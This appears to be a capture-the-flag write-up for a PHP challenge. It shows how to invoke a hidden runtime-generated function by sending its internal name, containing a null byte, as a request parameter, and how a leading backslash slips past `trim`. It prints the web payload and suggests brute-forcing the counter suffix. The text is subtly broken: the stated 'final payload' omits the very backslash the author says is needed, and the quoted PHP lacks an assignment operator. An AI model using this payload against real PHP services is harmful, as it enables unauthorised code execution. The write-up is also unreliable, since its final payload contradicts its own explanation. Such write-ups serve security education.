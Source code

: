 So to solve this challenge you figre out the `zend_build_runtime_definition_key` generated key (using the algorithm from above) and send it as a function name.

The problem with this idea is that there was a `trim` function being used in the code

```php
$secret trim($_REQUEST['secret'] ?? 'test1');
$secrets = trim($_REQUEST['secrets'] ?? 'picture');
```
So if I used this as a payload:
```
secret=%00readflag/root/scc/phpChal/insane.php:17$0
```
It would trim the `%00` part and the payload would not work because trim removes whitespaces from the payload in our case nullbyte..

The key is to add `\` before `%00`. 

Because in the dynamic function call is `INIT_DYNAMI_CALL` (you can see this using vld). Then using that you find the handler in the PHP source code. In the source code it is written that if the function name is a string, it will execute a `zend_init_dynamic_call_string` function:

```php
static zend_never_inline zend_execute_data *zend_init_dynamic_call_string(zend_string *function, uint32_t num_args) /* {{{ */
{
    if ((colon = zend_memrchr(ZSTR_VAL(function), ':', ZSTR_LEN(function))) != NULL &&
        colon > ZSTR_VAL(function) &&
        *(colon-1) == ':'
    ) {
        ...
    } else {
        if (ZSTR_VAL(function)[0] == '\\') {
            lcname = zend_string_alloc(ZSTR_LEN(function) - 1, 0);
            zend_str_tolower_copy(ZSTR_VAL(lcname), ZSTR_VAL(function) + 1, ZSTR_LEN(function) - 1);
        } else {
            lcname = zend_string_tolower(function);
        }
```

In the else statement you can see there is a check if the first character of the function name is a `\` , and if it is remove it and then search in the function table.

Basically the point is to remove the backslash of the root namespace. All internal function can be called with a `\`, for example `\date()` would still call the date function.

So the final payload would look like:

```
secret=%00readflag/root/scc/phpChal/insane.php:17$0
```

But... there is a one more catch, the `$0` part at the end is a counter right? Which means everytime the function is called it adds up one to the counter. You can solve this just by bruteforcing the `$0` part :) .

